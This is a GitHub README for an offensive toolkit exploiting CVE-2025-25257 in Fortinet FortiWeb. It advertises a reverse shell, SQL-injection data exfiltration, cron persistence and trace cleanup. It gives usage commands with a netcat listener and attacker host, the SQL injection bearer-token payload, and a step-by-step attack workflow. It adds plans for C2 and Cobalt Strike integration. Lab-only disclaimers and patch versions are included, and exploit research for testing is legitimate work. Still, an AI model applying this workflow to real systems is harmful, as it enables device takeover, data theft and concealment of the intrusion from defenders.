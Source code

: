 # FortiWeb RCE Toolkit 🔐

Automated proof-of-concept tool for **CVE-2025-25257** in Fortinet FortiWeb – featuring **reverse shell**, **exfiltration**, **persistence**, and **cleanup**. **Only for lab/testing environments. DO NOT USE in production.**

---

## ⚙️ Features

- ✔️ Pre-authenticated detection of vulnerable FortiWeb versions  
- 🐚 Reverse shell (bash) via `/cgi-bin/shell.sh`  
- 📤 Encrypted data exfiltration to `/tmp/exfil.txt` (Base64-encoded)  
- 🕒 Persistence via cron job (`/etc/cron.d/sys`)  
- 🧹 Full cleanup after use (removes shell + cron + SQL traces)  
- 🔒 Only active while listener runs and cleanup is triggered  

---

## 📋 Requirements

- Python 3.6+  
- `requests` library:  
  ```bash
  pip install requests
***

## 🚀 Usage

```bash
git clone https://github.com/youruser/fortiweb_rce_toolkit.git
cd fortiweb_rce_toolkit

# Run attacker listener
nc -lnvp 4444

# Run exploit with options
python3 exploit.py <target> --https --lhost <attacker_ip> --lport 4444 \
   --exfil "user(),version()" --persist

# After shell session ends
# Press ENTER to trigger cleanup
```

* Use `--https` if target uses HTTPS

* `--lhost` and `--lport` must match your listener

* `--exfil` (optional): SQL expression to exfiltrate

* `--persist`: (optional) enables cron persistence

***

## 🔒 Technical Workflow

1. **Detect** vulnerability by sending `Authorization: Bearer AAAAAA'or'1'='1`

2. **Upload** `/cgi-bin/shell.sh` via SQL injection

3. **Optional exfil**: writes base64 result of SQL query to `/tmp/exfil.txt`

4. **Optional persistence**: cron job executes shell every 5 minutes

5. **User invokes shell and performs tasks**

6. **Cleanup** wipes shell, cron job, and SQL artifacts

***

## ⚠️ Warnings & Ethics

* ⚠️ **Only use in isolated lab environments.**

* ⚠️ **Using this tool on production systems is illegal and unethical.**

* 📌 Always patch FortiWeb to a fixed version: `7.0.11+`, `7.2.11+`, `7.4.8+`, or `7.6.4+`.

  * See advisories: FortiGuard, TheHackerNews, BleepingComputer, InfosecBulletin

* 🔍 Recommended defensive action: block HTTP management interfaces until patched

***

## 🛠️ Future Enhancements

* TLS over reverse shell

* Encrypted exfil file transfer (SCP/s3)

* Automated Steam-level C2 communication

* Integration with Red Team frameworks (e.g. Cobalt Strike, Covenant)

***

## 🧠 References

* CVE‑2025‑25257 advisory & PoC: Fortinet, Rapid7, BleepingComputer

* Technical analysis: Undercode Testing, InfoSecBulletin

* FortiWeb patch versions: FortiGuard FG‑IR‑25‑151
